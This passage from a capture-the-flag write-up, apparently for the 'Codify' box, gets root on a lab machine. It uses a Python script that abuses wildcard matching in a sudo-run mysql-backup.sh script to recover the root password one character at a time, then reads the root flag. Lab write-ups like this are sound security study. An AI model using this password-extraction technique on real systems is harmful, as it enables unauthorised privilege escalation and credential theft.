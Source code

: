 After this, I was stumped for a while and took a quick break. After coming back, I realized I could use the asterisk to figure out the root password. If I passed `a*` as the password, the password check would fail. I could go through all characters to find a character which results in a passing statement. I could do this for all characters to figure out root password!

### Gaining root access
I wrote a quick python script to loop through characters, numbers and special-characters and pass them to the mysql-backup.sh -script one by one. If the character plus asterisk resulted in a passing condition, we found the next character in the password. Looping through multiple times would reveal the entire password!
```python
import subprocess

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!\"#$%&'()*+,-./:;<=>?@[\]^_`|{}~"
pw = ""

while True:
	for c in characters:
		cmd = f"echo '{pw}{c}'* |sudo /opt/scripts/mysql-backup.sh"
		output = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")

		# Next character in the password found
		if "confirmed" in output:
          pw += c
          print(pw)
          break

```

After a minute the script gets stuck as there's no exit condition for the while loop, but it gets the root password (kljh12k3j...) just fine.

Now gaining the root flag was simple:
```sh
$ su root
# Enter password
$ cd
$ cat root.txt
# Root flag :-)
```
![Pwned!](img/13_codify.png)
